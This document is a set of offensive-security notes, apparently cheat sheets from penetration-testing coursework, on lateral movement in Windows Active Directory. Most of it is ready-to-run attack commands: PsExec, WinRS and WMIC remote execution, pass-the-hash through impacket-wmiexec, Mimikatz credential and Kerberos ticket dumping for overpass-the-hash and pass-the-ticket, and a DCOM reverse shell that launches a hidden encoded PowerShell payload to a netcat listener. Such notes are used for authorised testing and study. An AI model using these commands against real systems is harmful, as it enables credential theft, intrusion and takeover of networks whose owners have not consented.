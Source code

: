 ### WMIC

This is deprecated in new Windows versions, and must be Local Admin to run this command, but if we are we can run

```powershell
wmic /node:<NODE-IP> /user:<USER> /password:<PASSWORD> process call create "calc"
```

### WINRS

Windows Remote Shell is command that needs the Domain Admin permission to be executed. WinRM is a built-in for WinRS

```powershell
winrs -r:<NODE-IP> -u:<USER> -p:<PASSWORD>  "cmd /c hostname & whoami"
```

### Powershell WinRM capability

We can use WinRM directly in Powershell with the script

```powershell
$username = '<USERNAME>';
$password = '<PASSWORD>';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName <IP> -Credential $credential
```

We can switch between PS WinRM sessions with

```powershell
Enter-PSSession 1
```

### PsExec

PsExec is a good utility in the [SysInternals suite](https://learn.microsoft.com/en-us/sysinternals/downloads/). To use this we have to be Local Administrators and the ADMIN$ share must be exposed with File and Printer Sharing that has to be turned on. This, in the Windows AD machines is enabled by default. We can run PsExec with the following syntax.

```powershell
./PsExec64.exe -i  \\<MACHINE-IP> -u corp\<USER> -p <PASSWORD> cmd
```

From the kali machine we can use **impacket-psexec** to run commands on Windows AD joined machines

```shell
proxychains impacket-psexec <DOMAIN>/Administrator:'PASSWORD'@<IP>
```

### Pass the hash

If the server has SMB active and the Windows File and Printer Sharing feature to be enabled we can use the previously gained hash to authenticate has another user using only the hash. For this purpose we can use the `impacket-wmiexec` utility in Kali. This will not work in Kerberos authentication but can grant us the access to the system.

```powershell
impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@<IP>
```

### Overpass the hash

We can abuse the hash to gain a full Kerberos TGT to gain then a TGS. To run this attack the credentials has to be cached and this means that in the machine there has to be a session for another user that executed some programs before us. Then we can rely on Mimikatz to get the cached hashes. `The core concept of this attack is to obtain functionant TGT Kerberos ticket without using the NTLM authentication actively over the network.`

```powershell
privilege::debug
sekurlsa::logonpasswords
sekurlsa::pth /user:<USER> /domain:<ORG> /ntlm:<NTLM-HASH> /run:powershell
```

In the new shell we can use

```powershell
net use \\<SMB-SHARE>
klist
```

To list all tickets. If we don't use some authentication before, we will not have any tickets because this is a new session.

We can now use `PsExec` to perform a lateral movement on the user we impersonated before

```powershell
.\PsExec.exe \\files04 cmd
```

**In this way we can convert a NTLM hash in a TGT and we can use tools like PsExec to authenticate in another Windows machine with the TGT ticket. **

### Pass the ticket

If a TGT ticket stays for the machine it was created for, but a TGS can be used in more ways. Here the TGS is reused to authenticate over the network and if the ticket belong to the current user, no Admin privilege is required. Here again we have to gain a pre-existent session in the machine and we have to dump the hashes and export them in the directory. This will create some `.kirbi` files that can be re-imported for another user.

```powershell
privilege::debug
sekurlsa::tickets /export
```

This is the Mimikatz command to import a ticket inside the current user session

```powershell
kerberos::ptt [0;12bd0]-0-0-xxxxxxxx-<USER>@<SERVICE>-<MACHINE>.kirbi
```

Again with `klist` we can list our new tickets (the new one should appear) and we can use the ticket to enter the service the ticket was for.

### DCOM

The Distributed Component Object Model can be used to perform lateral movement too. This is based on [COM](https://learn.microsoft.com/en-us/windows/win32/com/component-object-model--com--portal?redirectedfrom=MSDN) and is used for inter-communication between computer on a network. DCOM needs RCP on the TCP port 135 to be executed and a local Admin access. It is based on the Microsoft Management Console. We can run a reverse shell with DCOM with

```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","<IP>"))
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e <REVSHELL-ENCODED>","7")
```

On our attacker computer we must have a netcat listener active